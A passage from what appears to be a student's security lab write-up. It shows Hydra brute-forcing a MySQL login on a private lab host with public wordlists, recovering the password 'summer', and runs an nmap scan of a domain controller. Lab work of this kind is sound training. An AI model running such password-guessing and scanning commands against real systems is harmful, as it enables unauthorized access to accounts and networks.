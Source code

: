 `Now with some hints, without witch I doubt it would be possible (root can only log in locally, toor is not an easy guess and sammy has no guessable password)`

```code
vagrant@red:~$ sudo apt-get update >/dev/null 2>&1
vagrant@red:~$ sudo apt-get install -y hydra >/dev/null 2>&1
vagrant@red:~$ git clone https://github.com/danielmiessler/SecLists.git >/dev/null 2>&1
vagrant@red:~$ sudo hydra -s 3306 -l toor -P SecLists/Passwords/xato-net-10-million-passwords-100000.txt mysql://172.30.0.15
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-05 21:10:18
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 100000 login tries (l:1/p:100000), ~25000 tries per task
[DATA] attacking mysql://172.30.0.15:3306/
[3306][mysql] host: 172.30.0.15   login: toor   password: summer
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-05 21:10:29
```

`On kali hydra and other wordlists were allready installed ...`

```code
┌──(kali㉿kali)-[/usr/share/wordlists]
└─$ sudo hydra -s 3306 -l toor -P /usr/share/wordlists/rockyou.txt mysql://172.30.0.15
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-05 15:56:17
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://172.30.0.15:3306/
[3306][mysql] host: 172.30.0.15   login: toor   password: summer
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-05 15:56:29
```

- ***What webserver software is running on web?***

`Apache httpd 2.4.53 ((AlmaLinux))`

- ***Does scanning the DC show you the name of the domain?***

`yes`

```code
vagrant@red:~$ sudo nmap -sC 172.30.0.4
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-22 14:22 UTC
Nmap scan report for 172.30.0.4
Host is up (0.0014s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey:
|   3072 f6697c71d51e8258924d4eeacba3ffb1 (RSA)
|   256 62fff4b81282b6d9c08d3641696cd44a (ECDSA)
|_  256 8294ffc7de7605e11be894d3508ea346 (ED25519)
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
```